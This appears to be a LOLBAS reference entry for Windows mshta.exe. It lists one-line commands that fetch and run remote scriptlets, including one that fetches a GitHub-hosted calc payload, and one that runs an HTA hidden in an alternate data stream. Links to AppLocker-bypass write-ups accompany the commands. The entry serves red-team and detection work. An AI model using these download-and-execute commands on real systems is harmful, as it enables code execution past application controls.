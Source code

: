 ## mshta.exe

* Functions: Execute, Read ADS

```
mshta.exe evilfile.hta    

mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))    

mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();     
    
mshta "C:\ads\file.txt:file.hta"
```

Acknowledgements:
* Casey Smith - @subtee
* Oddvar Moe - @oddvarmoe

Code sample:
* [Mshta_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payloads/Mshta_calc.sct)

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Mshta.md      
* https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4     
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct     
* https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/    
* https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/

Full path:
```
C:\Windows\System32\mshta.exe
C:\Windows\SysWOW64\mshta.exe
```

Notes:
SCT code borrowed from Red Canary - Atomic Red Team 

